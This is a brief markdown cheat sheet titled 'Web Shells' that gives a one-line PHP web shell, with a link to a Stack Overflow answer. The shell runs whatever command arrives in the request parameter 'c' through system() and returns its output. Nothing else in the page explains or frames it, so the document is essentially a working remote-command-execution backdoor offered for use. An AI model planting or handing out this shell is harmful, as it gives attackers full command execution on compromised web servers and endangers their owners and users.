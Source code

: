 # Web Shells




## PHP

* [https://stackoverflow.com/a/3697776](https://stackoverflow.com/a/3697776)

```php
<?php if(isset($_REQUEST['c'])){system($_REQUEST['c'].' 2>&1');} ?>
```
